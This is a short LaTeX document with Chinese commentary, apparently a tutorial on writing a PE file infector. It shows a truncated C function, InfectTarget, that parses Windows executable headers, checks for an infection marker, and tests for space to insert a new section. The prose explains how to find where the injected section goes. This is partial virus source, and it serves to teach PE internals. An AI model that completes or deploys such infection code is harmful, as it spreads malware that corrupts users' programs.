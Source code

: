 \documentclass[UTF8]{ctexart}
\begin{document}
    \begin{lstlisting}[language=C, caption={获取并分析 Headers}, captionpos=b]
__forceinline int InfectTarget(SCSB *sb, HANDLE hFile) {
    int err = 0;
    // headers
    /* init in struct SCSB */
    // headers pointer
    PIMAGE_DOS_HEADER pDosHdr = &sb->dosHdr;
    PIMAGE_FILE_HEADER pFileHdr = &sb->fileHdr;
    PIMAGE_OPTIONAL_HEADER32 pOptHdr = &sb->optHdr;
    PIMAGE_SECTION_HEADER pLasSecHdr = &sb->lasSecHdr;
    PIMAGE_SECTION_HEADER pNewSecHdr = &sb->newSecHdr;
    // Get DOS Header
    err = ReadOffset(
        sb, hFile, 0, FILE_BEGIN, 
        pDosHdr, sizeof(IMAGE_DOS_HEADER)
    );
    if(err) return -1;
    // Check infected
    if(pDosHdr->e_res[0] == 0x1234) return 1;
    // Check Signature
    DWORD pe00;
    err = ReadOffset(
        sb, hFile, pDosHdr->e_lfanew, FILE_BEGIN,
        (PVOID)&pe00, sizeof(DWORD)
    );
    if(err) return -1;
    if(pe00 != 0x00004550) return 2;
    // Get File Header
    err = ReadOffset(
        sb, hFile, 0, FILE_CURRENT, 
        pFileHdr, sizeof(IMAGE_FILE_HEADER)
    );
    if(err) return -1;
    // Get Optional Header
    err = ReadOffset(
        sb, hFile, 0, FILE_CURRENT, 
        pOptHdr, 
        /* 224 when 32 bits, same as pFileHdr->SizeOfOptionalHeader */
        sizeof(IMAGE_OPTIONAL_HEADER32) 
    );
    if(err) return -1;
    if(pOptHdr->Magic != IMAGE_NT_OPTIONAL_HDR32_MAGIC) 
        return 3;
    // Check Headers Space
    long currentSize = \
        pFileHdr->NumberOfSections * sizeof(IMAGE_SECTION_HEADER) \
        + pDosHdr->e_lfanew + 0x4 \
        + sizeof(IMAGE_FILE_HEADER) \
        + pFileHdr->SizeOfOptionalHeader;
    long alignSize = pOptHdr->SizeOfHeaders;
    if(currentSize + sizeof(IMAGE_SECTION_HEADER) > alignSize)
        return 4;
    // Get Last Section Header
    err = ReadOffset(
        sb, hFile, currentSize - sizeof(IMAGE_SECTION_HEADER), FILE_BEGIN, 
        pLasSecHdr, sizeof(IMAGE_SECTION_HEADER)
    );
    if(err) return -1;
    ...
}
    \end{lstlisting}

    在代码的最后，我们利用 File Header 中对 Optional Header 大小和 Section header 数量的描述，计算出了当前所有的 Headers 所占用的大小。

    而 Optional Header 中记录的 SizeOfHeaders 实际上是文件为所有 Headers 预留出的空间大小。二者进行比较，就得到了空闲区域是否足以插入一个新的 Section Header。
    
    而获取最后一个 Section Header，则是为了获取最后一节的信息，以便计算新节的插入位置。
    
\end{document}
